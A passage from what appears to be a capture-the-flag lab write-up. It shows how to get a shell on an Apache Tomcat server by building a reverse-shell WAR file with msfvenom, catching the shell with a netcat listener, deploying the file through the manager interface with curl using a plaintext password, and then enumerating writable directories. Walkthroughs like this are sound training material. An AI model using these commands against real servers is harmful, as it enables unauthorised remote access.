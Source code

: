 In [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) Tomcat cheatsheet from hacktricks that I listed earlier, we see some different options for creating/deploying .war files via Tomcat.  

It's pretty simple. We will use msfvenom to create a malicious WAR file, setup a listener with Netcat to catch the reverse shell, then deploy and access the WAR file with cURL.  

```bash
Create WAR File:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=8888 -f war -o revshell.war

Setup a Listener: 
nc -nvlp 8888

Deploy WAR File to Tomcat Manager:
curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/revshell"

Launch revshell.war:
curl "http://10.10.10.194:8080/revshell/" 

NOTE: If You Wanted to UNDEPLOY it:
If you need to UNDEPLOY it:
curl http://10.10.10.194:8080/manager/text/undeploy?path=/revshell 

```  

Now, if we navigate to the terminal where we set up our Netcat listener, we should have a shell as the user tomcat. This shell doesn't have much functionality though, so I made it slightly nicer by spawning pty session via Python3:  

```bash  
python3 -c 'import pty; pty.spawn("/bin/sh")'
```  

### Enumeration  

So first, I tried to check for commands that tomcat could run as sudo with 'sudo -l' but it required a password to run. I tried entering tomcat's password for Tomcat manager as well as other default passwords for Apache Tomcat users, but they did not work.  

Then I checked which directories tomcat had access/ownership of with this command:  

```bash
$ find / -writable -type d 2>/dev/null 


/var/cache/tomcat9
/var/cache/tomcat9/Catalina
/var/cache/tomcat9/Catalina/localhost
/var/cache/tomcat9/Catalina/localhost/manager
/var/cache/tomcat9/Catalina/localhost/manager/org
/var/cache/tomcat9/Catalina/localhost/manager/org/apache
/var/cache/tomcat9/Catalina/localhost/manager/org/apache/jsp
/var/cache/tomcat9/Catalina/localhost/manager/org/apache/jsp/WEB_002dINF
/var/cache/tomcat9/Catalina/localhost/manager/org/apache/jsp/WEB_002dINF/jsp
/var/cache/tomcat9/Catalina/localhost/revshell
/var/cache/tomcat9/Catalina/localhost/revshell/org
/var/cache/tomcat9/Catalina/localhost/revshell/org/apache
/var/cache/tomcat9/Catalina/localhost/revshell/org/apache/jsp
/var/cache/tomcat9/Catalina/localhost/host-manager
/var/cache/tomcat9/Catalina/localhost/docs
/var/cache/tomcat9/Catalina/localhost/ROOT
/var/cache/tomcat9/Catalina/localhost/examples
/var/log/tomcat9
/var/tmp
/var/lib/tomcat9/webapps
```